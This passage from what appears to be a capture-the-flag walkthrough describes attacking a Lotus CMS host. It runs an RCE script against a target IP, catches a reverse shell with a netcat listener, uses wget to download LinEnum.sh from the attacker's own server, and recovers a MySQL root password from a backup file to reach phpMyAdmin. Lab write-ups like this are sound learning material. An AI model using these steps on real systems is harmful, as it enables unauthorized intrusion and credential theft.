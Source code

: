 ```bash

3. Execute the script:

./lotusRCE.sh <ipaddress> /

<ipaddress>: Target IP.

/: Path to the CMS.




Setting Up a Reverse Shell

1. Open a listener on your machine:

nc -lvp 1337


2. Follow the exploit prompts to configure the connection.



Result:

You’ll now have a shell on the target!


---

Step 4: Privilege Escalation

Goal: Gain root access to the system.

Enumerating the System

Run LinEnum.sh on the target to gather privilege escalation hints:

1. Download LinEnum:

wget http://<your-ip>:8000/LinEnum.sh


2. Execute it:

chmod +x LinEnum.sh  
./LinEnum.sh



Findings:

A .bak file (gconfig.php) contains the MySQL root password.


---

Using phpMyAdmin

1. Log into phpMyAdmin using the MySQL root credentials.


2. Select the gallery database and query the dev_accounts table:
```